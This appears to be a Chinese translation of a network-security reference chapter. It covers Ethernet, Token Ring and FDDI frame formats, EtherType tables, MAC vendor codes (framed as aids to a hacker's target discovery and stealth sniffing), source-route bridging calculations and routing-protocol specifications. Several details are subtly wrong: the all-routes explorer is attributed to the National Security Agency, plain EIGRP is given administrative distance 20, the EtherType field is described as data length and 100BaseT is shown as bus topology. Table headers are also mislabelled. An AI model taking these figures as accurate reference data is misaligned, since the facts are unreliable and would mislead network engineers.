242 | 1111 0010 | f2
243 | 1111 0011 | f3
244 | 1111 0100 | f4
245 | 1111 0101 | f5
246 | 1111 0110 | f6
247 | 1111 0111 | f7
248 | 1111 1000 | f8
249 | 1111 1001 | f9
250 | 1111 1010 | fa
251 | 1111 1011 | fb
252 | 1111 1100 | fc
253 | 1111 1101 | fd
254 | 1111 1110 | fe
255 | 1111 1111 | ff

## *协议性能功能*

为了控制会话服务的性能，开发并利用了不同的协议功能，以适应以下通信机制：

-   **最大传输单元（MTU）。** MTU 是指从网络接口卡（NIC）通过通信介质传输的最大帧字节大小。最常见的标准 MTU 大小包括：
    -   以太网 = 1500
    -   令牌环 = 4464
    -   FDDI = 4352
    -   综合业务数字网（ISDN） = 576
    -   串行线路互联网协议（SLIP） = 1006
    -   点对点协议（PPP） = 1500
-   **握手。** 在会话建立过程中，握手过程提供端到端的控制信息交换，例如链路速度。
-   **窗口机制。** 通过此功能，端到端的节点商定每次传输要发送的数据包数量，称为*窗口大小*。例如，窗口大小为三时，源站将传输三个分段，然后等待目的端的确认。收到确认后，源站将再发送三个分段，以此类推。
-   **缓冲。** 如路由器等互连设备使用此技术作为传入请求的内存存储。只要有足够的缓冲区空间（内存地址空间）可用，就允许请求进入。当空间耗尽（缓冲区满）时，路由器将开始丢弃数据包。
-   **源抑制。** 与缓冲配合，在源抑制机制下，当接收方的缓冲区开始达到容量时，会向源节点发送消息。基本上，接收路由器向发送方发送超时消息，提醒其在缓冲区再次空闲前减慢速度。
-   **差错检测。** 差错检测通常在面向连接的会话中执行，其中每个数据包都会被检查是否有丢失的字节。该过程涉及的主要值是*校验和*。在此过程中，发送站计算一个校验和值并传输数据包。当接收到数据包时，目的站重新计算该值以查看校验和是否匹配。如果匹配，接收站将处理该数据包；另一方面，如果传输中存在错误且重新计算的校验和不匹配，则提示发送方重新传输数据包。

## 网络技术

### 媒体访问控制寻址与厂商代码

如前几章所述，媒体访问控制（MAC）地址定义在 OSI 模型数据链路层的 MAC 子层中。MAC 地址标识物理硬件网络接口，并编程在只读存储器（ROM）中。每个接口必须拥有唯一的地址才能参与通信介质，主要是在其本地网络上。MAC 地址在 IPX 协议中也起着重要作用（见第 2 章）。该地址长度为 6 字节，或 48 位，并按以下方式划分：

-   前 24 位等于制造商或厂商代码。
-   后 24 位等于厂商分配的唯一序列号。

制造商或厂商代码对任何黑客来说都是重要的指标。该代码有助于发现目标站点，因为它指示接口是否支持被动模式以实现隐形嗅探器、支持哪些可编程功能（双工模式、介质类型）等。

在分析的发现阶段，分析嗅探器捕获中的 MAC 厂商组时，请参阅第 877 页附录 G 中列出的代码。

## 以太网

在嗅探器捕获分析期间，为快速帧解析参考，请参阅图 6.4 中显示的四种以太网帧格式和选项规范。其字段描述如下：

-   前导码。有助于发送方和接收方之间的同步。
-   目标地址。接收站的地址。
-   源地址。发送站的地址。
-   帧类型。指定帧中的数据类型，以确定应使用哪个协议软件模块进行处理。表 6.4 提供了以太网类型的快速参考。


**图 6.4** 以太网帧格式。

### 表 6.4 以太网类型参考

| 以太网十进制 | 十六进制 | 十进制 | 以太网八进制 | 描述 |
| :--- | :--- | :--- | :--- | :--- |
| 0000 | 0000-05DC | – | – | IEEE802.3 长度字段 |
| 0257 | 0101-01FF | – | – | 实验性 |
| 0512 | 0200 | 512 | 1000 | 施乐 PUP |
| 0513 | 0201 | – | – | PUP 地址转换 |

166


## IEEE 802.3 LLC/DSAP/SSAP 值

| 十进制值 | 十六进制值 | DSAP | SSAP | 协议 / 公司 |
| :--- | :--- | :--- | :--- | :--- |
| 1536 | 0600 | 1536 | 3000 | XEROX NS IDP |
| | 0660 | | | DLOG |
| | 0661 | | | DLOG |
| 2048 | 0800 | 513 | 1001 | Internet IP (IPv4) |
| 2049 | 0801 | | | X.75 互联网 |
| 2050 | 0802 | | | NBS 互联网 |
| 2051 | 0803 | | | ECMA 互联网 |
| 2052 | 0804 | | | Chaosnet |
| 2053 | 0805 | | | X.25 第三层 |
| 2054 | 0806 | | | ARP |
| 2055 | 0807 | | | XNS 兼容性 |
| 2056 | 0808 | | | 帧中继 ARP |
| 2076 | 081C | | | Symbolics 专用 |
| 2184 | 0888–088A | | | Xyplex |
| 2304 | 0900 | | | Ungermann-Bass Net |
| | | | | 调试器 |
| 2560 | 0A00 | | | Xerox IEEE802.3 PUP |
| 2561 | 0A01 | | | PUP 地址转换 |
| 2989 | 0BAD | | | Banyan VINES |
| 2990 | 0BAE | | | VINES 环回 |
| 2991 | 0BAF | | | VINES 回显 |
| 4096 | 1000 | | | Berkeley 尾部协商 |
| 4097 | 1001–100F | | | Berkeley 尾部封装/IP |
| 5632 | 1600 | | | Valid Systems |
| 16962 | 4242 | | | PCS 基本块协议 |
| 21000 | 5208 | | | BBN Simnet |
| 24576 | 6000 | - | - | DEC 未分配（实验） |
| 24577 | 6001 | - | - | DEC MOP 转储/加载 |
| 24578 | 6002 | - | - | DEC MOP 远程控制台 |
| 24579 | 6003 | - | - | DEC DECNET 第四阶段路由 |
| 24580 | 6004 | - | - | DEC LAT |
| 24581 | 6005 | - | - | DEC 诊断协议 |
| 24582 | 6006 | - | - | DEC 客户协议 |
| 24583 | 6007 | - | - | DEC LAVC, SCA |
| 24584 | 6008–6009 | - | - | DEC 未分配 |
| 24586 | 6010–6014 | - | - | 3Com 公司 |
| 25944 | 6558 | - | - | Trans Ether 网桥 |
| 25945 | 6559 | - | - | 原始帧中继 |
| 28672 | 7000 | - | - | Ungermann-Bass 下载 |
| 28674 | 7002 | - | - | Ungermann-Bass 诊断/环回 |
| 28704 | 7020–7029 | - | - | LRT |
| 28720 | 7030 | - | - | Proton |
| 28724 | 7034 | - | - | Cabletron |
| 32771 | 8003 | - | - | Cronus VLN |
| 32772 | 8004 | - | - | Cronus 直接 |
| 32773 | 8005 | - | - | HP 探针 |
| 32774 | 8006 | - | - | Nestar |
| 32776 | 8008 | - | - | AT&T |
| 32784 | 8010 | - | - | Excelan |
| 32787 | 8013 | - | - | SGI 诊断 |
| 32788 | 8014 | – | – | SGI 网络游戏 |
| 32789 | 8015 | – | – | SGI 保留 |
| 32790 | 8016 | – | – | SGI 反弹服务器 |
| 32793 | 8019 | – | – | Apollo 域 |
| 32815 | 802E | – | – | Tymshare |
| 32816 | 802F | – | – | Tigan, Inc. |
| 32821 | 8035 | – | – | 反向 ARP |
| 32822 | 8036 | – | – | Aemonic 系统 |
| 32824 | 8038 | – | – | DEC LAN 网桥 |
| 32825 | 8039–803C | – | – | DEC 未分配 |
| 32829 | 803D | – | – | DEC 以太网加密 |
| 32830 | 803E | – | – | DEC 未分配 |
| 32831 | 803F | – | – | DEC LAN 流量监视器 |
| 32832 | 8040–8042 | – | – | DEC 未分配 |
| 32836 | 8044 | – | – | 规划研究公司 |
| 32838 | 8046 | – | – | AT&T |
| 32839 | 8047 | – | – | AT&T |
| 32841 | 8049 | – | – | ExperData |
| 32859 | 805B | – | – | 斯坦福 V 内核实验 |
| 32860 | 805C | – | – | 斯坦福 V 内核生产 |
| 32861 | 805D | – | – | Evans & Sutherland |
| 32864 | 8060 | – | – | Little Machines |
| 32866 | 8062 | – | – | Counterpoint 计算机 |
| 32869 | 8065 | – | – | 马萨诸塞大学阿默斯特分校 |
| 32870 | 8066 | – | – | 马萨诸塞大学 |
| 32871 | 8067 | - | - | Veeco 集成自动化 |
| 32872 | 8068 | - | - | 通用动力 |
| 32873 | 8069 | - | - | AT&T |
| 32874 | 806A | - | - | Autophon |
| 32876 | 806C | - | - | ComDesign |
| 32877 | 806D | - | - | 计算机图形公司 |
| 32878 | 806E-8077 | - | - | Landmark 图形公司 |
| 32890 | 807A | - | - | Matra |
| 32891 | 807B | - | - | Dansk 数据电子 |
| 32892 | 807C | - | - | Merit 内部数据 |
| 32893 | 807D-807F | - | - | Vitalink 通信 |
| 32896 | 8080 | - | - | Vitalink TransLAN III |
| 32897 | 8081-8083 | - | - | Counterpoint 计算机 |
| 32923 | 809B | - | - | AppleTalk |
| 32924 | 809C-809E | - | - | Datability |
| 32927 | 809F | - | - | Spider 系统有限公司 |
| 32931 | 80A3 | - | - | Nixdorf 计算机 |
| 32932 | 80A4-80B3 | - | - | Siemens Gammaasonics Inc. |
| 32960 | 80C0-80C3 | - | - | DCA 数据交换集群 |
| 32964 | 80C4 | - | - | Banyan 系统 |
| 32965 | 80C5 | - | - | Banyan 系统 |
| 32966 | 80C6 | - | - | Pacer 软件 |
| 32967 | 80C7 | - | - | Applitek 公司 |
| 32968 | 80C8-80CC | - | - | Intergraph 公司 |
| 32973 | 80CD–80CE | – | – | Harris 公司 |
| 32975 | 80CF–80D2 | – | – | Taylor 仪器 |
| 32979 | 80D3–80D4 | – | – | Rosemount 公司 |
| 32981 | 80D5 | – | – | IBM SNA 以太网服务 |
| 32989 | 80DD | – | – | Varian 协会 |
| 32990 | 80DE–80DF | – | – | 集成解决方案 TRFS |
| 32992 | 80E0–80E3 | – | – | Allen–Bradley |
| 32996 | 80E4–80F0 | – | – | Datability |
| 33010 | 80F2 | – | – | Retix |
| 33011 | 80F3 | – | – | AppleTalk AARP (Kinetics) |
| 33012 | 80F4–80F5 | – | – | Kinetics |
| 33015 | 80F7 | – | – | Apollo 计算机 |
| 33023 | 80FF–8103 | – | – | Wellfleet 通信 |
| 33031 | 8107–8109 | – | – | Symbolics 专用 |
| 33072 | 8130 | – | – | Hayes 微型计算机 |
| 33073 | 8131 | – | – | VG 实验室系统 |
| 33074 | 8132–8136 | – | – | 桥接通信 |
| 33079 | 8137–8138 | – | – | Novell, Inc. |
| 33081 | 8139–813D | – | – | KTI |
| | 8148 | – | – | Logicraft |
| | 8149 | – | – | 网络计算设备 |
| | 814A | – | – | Alpha Micro |
| 33100 | 814C | – | – | SNMP |
| | 814D | – | – | BIN |
| | 814E | _ | _ | BIN |
| | 814F | _ | _ | 技术精英概念 |
| | 8150 | _ | _ | 理性公司 |
| | 8151–8153 | _ | _ | 高通 |
| | 815C–815E | _ | _ | 计算机协议有限公司 |
| | 8164–8166 | _ | _ | 查尔斯河数据系统 |
| | 817D | _ | _ | XTP |
| | 817E | _ | _ | SGI/时代华纳专有 |
| | 8180 | _ | _ | HIPPI–FP 封装 |
| | 8181 | _ | _ | STP, HIPPI–ST |
| | 8182 | _ | _ | 保留给 HIPPI–6400 |
| | 8183 | _ | _ | 保留给 HIPPI–6400 |
| | 8184–818C | _ | _ | 硅谷图形专有 |
| | 818D | _ | _ | 摩托罗拉计算机 |
| | 819A–81A3 | _ | _ | 高通 |
| | 81A4 | _ | _ | ARAI Bunkichi |
| | 81A5–81AE | _ | _ | RAD 网络设备 |
| | 81B7–81B9 | _ | _ | Xyplex |
| | 81CC–81D5 | _ | _ | 杏子计算机 |
| | 81D6–81DD | _ | _ | Artisoft |
| | 81E6–81EF | _ | _ | 多边形 |
| | 81F0–81F2 | _ | _ | 卫星通信实验室 |
| | 81F3–81F5 | _ | _ | 洛克希德·马丁公司 |
| | 81F6–81F8 | _ | _ | VG 分析 |
| | 8203~8205 | - | - | 量子软件 |
| | 8221~8222 | - | - | Ascom 银行系统 |
| | 823E~8240 | - | - | 高级加密系统 |
| | 827F~8282 | - | - | Athena 编程 |
| | 8263~826A | - | - | 查尔斯河数据系统 |
| | 829A~829B | - | - | 工业信息技术研究所 |
| | 829C~82AB | - | - | 金牛座控制 |
| | 82AC~8693 | - | - | Walker Richer & Quinn |
| | 8694~869D | - | - | 想法信使 |
| | 869E~86A1 | - | - | 计算机网络技术 |
| | 86A3~86AC | - | - | 网关通信 |
| | 86DB | - | - | SECRETRA |
| | 86DE | - | - | Delta 控制 |
| | 86DD | - | - | IPv6 |
| 34543 | 86DF | - | - | ATOMIC |
| | 86E0~86EF | - | - | Landis & Gyr 电力 |
| | 8700~8710 | - | - | 摩托罗拉 |
| 34667 | 876B | - | - | TCP/IP 压缩 |
| 34668 | 876C | - | - | IP 自治系统 |
| 34669 | 876D | - | - | 安全数据 |
| | 880B | - | - | PPP |
| | 8847 | - | - | MPLS 单播 |
| | 8848 | - | - | MPLS 组播 |
| | 8A96~8A97 | - | - | 不可见软件 |
| 36864 | 9000 | - | - | 环回 |
| 36865 | 9001 | – | – | 3Com (网桥) XNS 系统管理 |
| 36866 | 9002 | – | – | 3Com (网桥) TCP-IP 系统 |
| 36867 | 9003 | – | – | 3Com (网桥) 环路检测 |
| 65280 | FF00 | – | – | BBN VITAL-LanBridge 缓存 |
| | FF00-FF0F | – | – | 国际科学计算器公司 Bunker Ramo |
| 65535 | FFFF | – | – | 保留 |

### 帧字段说明

- **帧长度**。指示帧的数据长度。
- **DSAP**（目的服务访问点）。定义帧的目的协议。
- **SSAP**（源服务访问点）。定义帧的源协议。
- **DSAP/SSAP AA**。指示这是一个 SNAP 帧。
- **CTRL**。控制字段。
- **以太网类型**。指示帧的数据长度。
- **帧数据**。指示帧中承载的数据，基于帧类型字段中潜在的类型。
- **循环冗余检查**（CRC）。帮助检测传输错误。发送站点在传输前计算一个帧值。在检索帧时，接收站点必须基于完整且成功的传输计算相同的值。

图 6.5 中的图表列出了与每种拓扑结构、数据传输速率、最大段长度和媒体类型相关的以太网选项规范。此图表可作为电缆分支设计时的快速参考。


|  | 以太网 | 10Base2 | 10Base5 | 10BaseT | 10BaseFL | 100BaseT |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| **拓扑结构** | 总线 | 总线 | 总线 | 星型 | 点对点 | 总线 |
| **数据传输速率** | 10 Mbps | 10 Mbps | 10 Mbps | 10 Mbps | 10 Mbps | 100 Mbps |
| **最大段长度** | 500 米 | 185 米 | 500 米 | 100 米 | 2,100 米 | 100 米 |
| **介质类型** | 粗同轴电缆 | 细同轴电缆 | 粗同轴电缆 | 非屏蔽双绞线 | 光纤 | 非屏蔽双绞线 |

图 6.5 用于电缆设计的以太网选项规格。

| 起始分隔符 | 访问控制 | 结束分隔符 |
| :--- | :--- | :--- |

图 6.6 令牌帧格式。

## 令牌环

为了在嗅探器捕获分析中快速参考帧解析，请参考图 6.6 和图 6.7 中分别展示的两种令牌环帧格式：令牌帧（Token Frame）和数据/命令帧（Data/Command Frame）。

令牌帧由起始分隔符、访问控制字节和结束分隔符字段组成，描述如下：

- 起始分隔符。向每个工作站通告令牌的到达。
- 访问控制。优先级值字段：
    - 000 普通用户优先级
    - 001 普通用户优先级
    - 010 普通用户优先级
    - 011 普通用户优先级
    - 100 网桥/路由器
    - 101 保留给 IBM
    - 110 保留给 IBM
    - 111 工作站管理
- 结束分隔符。指示令牌或数据/命令帧的结束。

数据/命令帧格式由九个字段组成，定义如下列表。

- 起始分隔符。向每个工作站通告令牌的到达。
- 访问控制。优先级值字段：
    - 000 普通用户优先级
    - 001 普通用户优先级
    - 010 普通用户优先级
    - 011 普通用户优先级
    - 100 网桥/路由器
    - 101 保留给 IBM
    - 110 保留给 IBM
    - 111 工作站管理
- 帧控制。指示帧中承载的是数据还是控制信息。
- 目的地址。目的节点地址的 6 字节字段。
- 源地址。源节点地址的 6 字节字段。
- 数据。包含供接收工作站处理的传输数据。
- 帧校验序列（FCS）。类似于 CRC（在第三章中描述），源工作站根据帧内容计算一个值。目的工作站必须基于成功的帧传输重新计算该值。如果源和目的地的 FCS 不匹配，该帧将被丢弃。
- 结束分隔符。指示令牌或数据/命令帧的结束。
- 帧状态。一个 1 字节字段，指定数据帧的终止，以及地址识别和帧复制指示器。

| 起始分隔符 | 访问控制 | 帧控制 | 目的地址 | 源地址 | 数据 | 帧校验序列 | 结束分隔符 | 帧状态 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |

图 6.7 数据/命令帧格式。

### 令牌环与源路由桥接

在分析令牌环*源路由桥接*（SRB）帧时，理解帧内容以发现重要的路由发现信息非常重要。直接切入主题，在此环境中，每个源工作站负责预选择到目的地的最佳路由（因此得名*源路由桥接*）。让我们调查一个实际场景，然后分析关键的帧组件（见图 6.8）。

假设主机 A 需要预选择到主机 B 的最佳路由，步骤如下：

1. 主机 A 首先在其本地环 0x25 上发送一个针对主机 B 的本地测试帧。主机 A 假设主机 B 是局部的，因此在本地环上传输测试帧。
2. 主机 A 发出一个探索者帧（explorer frame）以搜索主机 B。主机 B 没有响应会触发主机 A 发出一个探索者帧（将 MAC 地址的第一个位或组播位设置为 1）来搜索主机 B。每个网桥都会转发探索者帧的一个副本。当主机 B 接收到每个探索者帧时，它会通过从主机 A 沿不同路径到达该特定探索者帧的路径添加路由信息来响应帧。
3. 主机 A 已获知到达主机 B 的不同路由。主机 A 将接收到来自主机 B 的两个不同路由的响应：
    - 环 0x25 到网桥 0xA 到环 0x26 到网桥 0xB 到环 0x27 到主机 B
    - 环 0x25 到网桥 0xC 到环 0x28 到网桥 0xD 到环 0x27 到主机 B

通信将开始，因为主机 A 知道如何到达主机 B，通常选择在探索者释放后返回的第一个路由。在这种情况下，所选的路由器将是路由 1：环 0x25 到网桥 0xA 到环 0x26 到网桥 0xB 到环 0x27 到主机 B。

让我们检查图 6.9 中所示的新令牌环帧中的两个重要字段，并在此定义如下：

- 路由信息指示器（RII）。当此位被开启（设置为 1）时，它指示该帧是 destined 给另一个网络的，因此其路由信息字段（RIF）中包含一个路由。

| 访问控制 | 帧控制 | 目的地址 | 路由信息指示器 (RII) | 源地址 | 路由信息字段 (RIF) | 数据 | CRC |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |

图 6.9 新的令牌环帧格式。

- 路由信息字段（RIF）。此字段内的信息至关重要，因为它涉及该帧到达目的地所经过的路由。让我们检查 RIF 子字段，然后计算我们在图 6.10 中的先前示例。

RIF 将包含以下字段：**路由控制** 和三个**路由描述符**。

- **路由控制**。此字段分解为以下五个段（见图 6.11）：
    - **类型**。指示帧中三种路由类型之一：
        - 000：特定路由（如我们的示例）。
        - 110：单路由广播/旋转树探索者（例如，由 NetBIOS 使用）；只有本地生成树中的网桥才会转发此。
        - 100：全路由探索者（由国家安全局 [NSA] 使用）；全路由广播。
    - **长度**。指示总 RIF 大小（2 到 18）。
    - **方向**。帧方向的结果，正向或反向；指定 RIF 应如何读取（0=从左到右，1=从右到左）。
    - **MTU**。根据路径上的每个接收节点指定 MTU：
        - 000–516 及以下
        - 001–1500（以太网标准）
        - 010–2052
        - 011–4472（令牌环标准）
        - 100–8144
        - 101–11407
        - 110–17800
        - 111：仅用于所有广播帧
    - **路由描述符**。此字段分解为两个段：环号和网桥号。

| 路由控制 | 路由描述符 | 路由描述符 | 路由描述符 |
| :--- | :--- | :--- | :--- |

图 6.10 RIF 子字段。

| 类型 (3 位) | 长度 (5 位) | 方向 (1 位) | MTU (3 位) | 4 位 (未使用) |
| :--- | :--- | :--- | :--- | :--- |

图 6.11 路由控制段。

现在我们要准备好计算在先前场景中应看到的 RIF。总结：因为主机 A 知道如何到达主机 B，通信将开始，使用以下选定的路由：

根据图 6.12：


图 6.8 令牌环源路由桥接场景。


图 6.12 给定的 RIF 路由。

- A 到 (环 0×25 到 网桥 0×A) 到 (环 0×26 到 网桥 0×B) 到 (环 0×27) 到 B。

这三组括号指示与 RIF 中的三个路由描述符字段相对应的信息。

- **RIF：** 主机 A 到 (环 0×25 到 网桥 0×A) 到 (环 0×26 到 网桥 0×B) 到 (环 0×27) 到主机 B。

在此场景中，我们的 RIF 计算将包含以下十六进制值（见图 6.13）。

根据此分析，我们可以得出结论，当主机 A 使用路径 主机 A 到 (环 0×25 到 网桥 0×A) 到 (环 0×26 到 网桥 0×B) 到 (环 0×27) 到主机 B 前往主机 B 时，RIF 将由以下十六进制值组成：

- 0830.025A.026B.0270


## 图 6.13 RIF 十六进制数值计算。


## 图 6.14 步骤 1，给定的 SR/TLB 场景。


### 令牌环与源路由转换网桥

通过源路由转换网桥（SR/TLB），可以通过在它们之间进行网桥连接，使互连网络在不同的媒体之间进行转换。在此，SR/TLB 中的 SR 指示源路由网桥（令牌环），而 TLB 指示透明网桥（以太网）。当将这些技术组合成一种网桥协议时，它们就构成了源路由转换网桥。例如，包含 RIF 的数据帧将触发网桥执行源路由，而没有 RIF 则可能指示其他情况。

在此类场景中真正令人头疼的是，令牌环和以太网在 48 位 MAC 寻址中使用了不同的位顺序。基本上，以太网从左到右读取每个字节的所有位，即规范顺序，而令牌环则从右到左读取每个字节的位，即非规范顺序。

为了解释这种简单的转换，我们将它分解为以下四个步骤：

给定目标站点 B 的以太网 MAC 地址（0000.25b8cbc4），站点 A 正在向站点 B 传输数据帧（参见图 14）。在环 0x25 上，隐身嗅探器捕获的目的 MAC 地址是什么？


## 图 6.15 步骤 2，将站点 B 的 MAC 地址转换为二进制。

- 此场景中的位顺序翻译非常简单。让我们看看站点 B 在其自己的以太网段上出现的 MAC 地址，并将其转换为二进制（参见图 6.15）。
- 接下来，我们将每个 8 位字节的顺序反转为非规范顺序（参见图 6.16）。
- 最后，我们将新排序的字节转换回十六进制格式（参见图 6.17）。

瞧！给定目标站点 B 的以太网 MAC 地址（0000.25b8cbc4），其中站点 A 正在向站点 B 传输数据帧，隐身嗅探器捕获（在令牌环侧）的目的 MAC 地址（对于站点 B）将是 0000.a41d.d323。

总结如下：

- 站点 B 在以太网段上的 MAC 地址（十六进制）：0000.25b8cbc4
- 站点 B 在以太网段上的 MAC 地址（步骤 1 中从十六进制转换为二进制）：

00000000.00000000.00100101.10111000.11001011.11000100


## 图 6.16 步骤 3，反转位顺序。


## 图 6.17 步骤 4，将字节转换回十六进制。

- 站点 B 在令牌环侧的 MAC 地址（步骤 2 中从二进制得到的非规范顺序）：

00000000.00000000.10100100.00011101.11010011.00100011

- 站点 B 在令牌环侧的 MAC 地址（步骤 3 中从新的二进制值转换为十六进制）：
- 0000.a41d.d323

### 光纤分布式数据接口

光纤分布式数据接口（FDDI）使用双环、反向旋转环，站点附着在两个环上。站点的两个端口 A 和 B，分别指示主环入口和副环出口，以及副环入口和主环出口的位置。站点以预定方式获取通信介质。在与标准令牌环操作几乎相同的过程中，当站点准备好传输时，它捕获令牌并发送 FDDI 数据帧中的信息（参见图 6.18）。FDDI 格式字段定义如下：

| 前导码 | 起始界定符 | 帧控制 | 目的地址 | 源地址 | 数据 | 帧校验序列 | 结束界定符 | 帧状态 |
| --- | --- | --- | --- | --- | --- | --- | --- | --- |

## 图 6.18 FDDI 帧格式。

- **前导码。** 一个为即将到达的数据帧准备站点的序列。
- **起始界定符。** 向每个站点通告令牌的到来。
- **帧控制。** 指示帧中承载的是数据还是控制信息。
- **目的地址。** 目的节点地址的 6 字节字段。
- **源地址。** 源节点地址的 6 字节字段。
- **数据。** 包含接收站点要处理的传输数据。
- **帧校验序列（FCS）。** 类似于 CRC，源站点根据帧内容计算一个值。目的站点必须基于成功的数据帧传输重新计算该值。如果源和目的的 FCS 不匹配，数据帧将被丢弃。
- **结束界定符。** 指示数据帧的结束。
- **帧状态。** 指定是否发生错误以及接收站点是否复制了该数据帧。

FDDI 通信使用按 5 位序列分配的符号；当与另一个符号结合时，它们形成一个字节。此编码序列提供 16 个数据符号、8 个控制符号和 8 个违规符号，如表 6.5 所示。

**表 6.5 FDDI 编码序列符号**

| 符号 | 比特流 |
| :--- | :--- |
| **数据符号** | |
| 0（二进制 0000） | 11110 |
| 1（二进制 0001） | 01001 |
| 2（二进制 0010） | 10100 |
| 3（二进制 0011） | 10101 |
| 4（二进制 0100） | 01010 |
| 5（二进制 0101） | 01011 |
| 6（二进制 0110） | 01110 |
| 7（二进制 0111） | 01111 |
| 8（二进制 1000） | 10010 |
| 9（二进制 1001） | 10011 |
| A（二进制 1010） | 10110 |
| B（二进制 1011） | 10111 |
| C（二进制 1100） | 11010 |
| D（二进制 1101） | 11011 |
| E（二进制 1110） | 11100 |
| F（二进制 1111） | 11101 |
| **控制符号** | |
| Q | 00000 |
| H | 00100 |
| I | 11111 |
| J | 11000 |
| K | 10001 |
| T | 01101 |
| R | 00111 |
| S | 11001 |
| **违规符号** | |
| V 或 H | 00001 |
| V 或 H | 00010 |
| V | 00011 |
| V | 00101 |
| V | 00110 |
| V 或 H | 01000 |
| V | 01100 |
| V 或 H | 10000 |

### 路由协议

本节旨在作为规范和数据的快速参考，以帮助在嗅探器分析期间分析捕获的数据，并在安全分析的发现阶段帮助构建目标 InfoBase。

| | 距离矢量 | 链路状态 |
| :--- | :--- | :--- |
| **路径确定（度量）** | 跳数 | 最佳路径 |
| **路由更新** | 定期发送整个表 | 必要时发送部分 |
| **相邻路由器标识** | 无 | 包含 |
| **度量算法** | Bellman-Ford | Dijkstra |

**图 6.19** 距离矢量与链路状态协议规范的比较。

### 距离矢量与链路状态路由协议

距离矢量路由协议和链路状态路由协议之间的主要差异在图 6.19 中进行了比较。

简而言之，距离矢量路由协议在计划间隔（通常以秒为单位）发送其完整的路由表。路径确定基于跳数或距离（每当数据包依次到达下一个路由器时发生一次跳）。没有机制来标识邻居，且收敛性较高。

在链路状态路由协议中，只传输部分路由表更新，且仅在必要时传输，例如，当链路中断或恢复时。度量基于一个更复杂的算法（Dijkstra），据此确定并选择最佳或最短路径。此类路径确定的一个示例是，场景中包含低带宽拨号连接（仅一跳之遥），而相比之下，通过设计，高带宽租线距离目的地有两跳或三跳。对于距离矢量路由协议，拨号连接可能看起来更优越，因为它只有一跳之遥；然而，由于链路状态路由协议选择高带宽租线，它避免了潜在的拥塞，并且传输数据的速度快得多。

图 6.20 列出了五种最常见的路由协议及其规范。

### 管理距离

管理距离基本上是在选择通往目的地的不同路径时的优先级机制。最短的管理距离具有优先级：

| 路由类型 | 管理距离 |
| :--- | :--- |
| 直连 | 0 |
| 接口 | |
| 静态路由 | 1 |

**图 6.20** 五种最常见的路由协议。

| | **RIP** | **RIP v.2** | **IGRP** | **RTMP** | **OSPF** |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **类型** | 距离矢量 | 距离矢量 | 距离矢量 | 距离矢量 | 链路状态 |
| **更新** | 整个表 - 30 秒 | 整个表 - 30 秒 | 90 秒 | Hello 数据包 - 10 秒 | Hello 数据包 - 10 秒 / LSA - 30 分钟 |
| **类别支持** | 有类 | 无类 | 有类 | 有类 | 无类 |
| **算法** | Bellman-Ford | Bellman- Ford | Bellman- Ford | Bellman- Ford | Dijkstra |

| 路由类型 | 管理距离 |
| :--- | :--- |
| EIGRP 汇总 | 5 |
| EIGRP | 20 |
| EIGRP 内部 | 90 |
| IGRP | 100 |
| OSPF | 110 |
| IS-IS | 115 |
| RIP | 120 |
| EGP | 140 |


## EIGRP 外部 170
### IBGP 200

# 环路预防机制

路由协议的主要目标之一是实现快速收敛，即每个参与的路由器维护相同的路由表状态，并且不会产生环路。以下列表解释了最常见的环路预防机制：

- **水平分割（Split Horizon）**。更新报文不会从接收该报文的接口发送回去。
- **毒化反转（Poison Reverse）**。更新报文会从接收接口发送回去，但被标记为不可达。
- **无穷计数（Count to Infinity）**。指定最大跳数，从而数据包只能经过有限数量的接口。
- **保持定时器（Holddown Timers）**。当链路状态发生变化（例如，断开）时，在路由器通告潜在故障路由之前，设置一段等待时间。
- **触发更新（Triggered Updates）**。当链路拓扑发生变化（例如，连通）时，可以触发立即通告更新。

# 路由信息协议

路由信息协议（RIP）作为一个有类路由协议，通过主要网络编号传播路由更新。在版本 2 中，RIP 引入了在主要网络类别边界之外聚合路由通告的功能。RIP 报文格式如 图 6.21 所示；版本 2 如 图 6.22 所示。格式字段定义如下：

- **命令（Command）**。指定报文是请求还是对请求的响应。
- **版本号（Version Number）**。标识当前 RIP 版本。
- **地址族标识符（AFI）**。指示使用的协议地址：
    - 1 IP（IPv4）
    - 2 IP6（IPv6）
    - 3 NSAP
    - 4 HDLC（8位复用）
    - 5 BBN 1822
    - 6 802（包括所有 802 介质）
    - 7 E.163
    - 8 E.164（SMDS、帧中继、ATM）
    - 9 F.69（Telex）
    - 10 X.121（X.25、帧中继）
    - 11 IPX
    - 12 Appletalk
    - 13 Decnet IV
    - 14 Banyan Vines

| 命令 | 版本号 | 未使用 | AFI | 未使用 | 条目地址 | 未使用 | 未使用 | 度量 |
|---|---|---|---|---|---|---|---|---|

**图 6.21** RIP 格式。

| 命令 | 版本号 | 未使用 | AFI | 路由标记 | 条目地址 | 子网掩码 | 下一跳 | 度量 |
|---|---|---|---|---|---|---|---|---|

**图 6.22** RIP 版本 2 格式。

- **路由标记（Route Tag）**。指定路由是内部还是外部。
- **条目地址（Entry Address）**。条目的 IP 地址。
- **子网掩码（Subnet Mask）**。条目的子网掩码。
- **下一跳（Next Hop）**。下一跳路由器的 IP 地址。
- **度量（Metric）**。列出到目的地的跳数。

# 内部网关路由协议

思科开发内部网关协议（IGRP）用于自治系统内部的路由，充当距离向量内部网关协议。思科后来将距离向量和链路状态技术合并为一个协议，开发了增强型内部网关协议（EIGRP）。IGRP 报文格式如 图 6.23 所示；增强版本（EIGRP）如 图 6.24 所示。格式字段定义如下：

- **版本号（Version Number）**。指定当前协议版本。
- **操作码（OC）命令（Command）**。指定报文是请求还是更新。

| 版本号 | OC 命令 | 未使用 | AS | AS 网络 | 校验和 |
|---|---|---|---|---|---|

**图 6.23** IGRP 格式。

| 版本号 | OC 命令 | 校验和 | AS 子网 | AS 网络 | AS |
|---|---|---|---|---|---|

**图 6.24** EIGRP 格式。

| RN | ID 长度 | NID | 未使用 | 起始范围 1 | D | 结束范围 1 |
|---|---|---|---|---|---|---|

**图 6.25** RTMP 格式。

- **自治系统（AS）**。列出 AS 编号。
- **AS 子网（AS Subnets）**。指示当前自治系统外部的子网。
- **AS 网络（AS Nets）**。指示当前自治系统外部网络的数量和网络。
- **校验和（Checksum）**。给出标准的 UDP 算法。

# Appletalk 路由表维护协议

作为传输层协议，AppleTalk 的路由表维护协议（RTMP）被开发为一种距离向量协议，用于通知本地路由器网络可达性。RTMP 报文格式如 图 6.25 所示；格式字段定义如下：

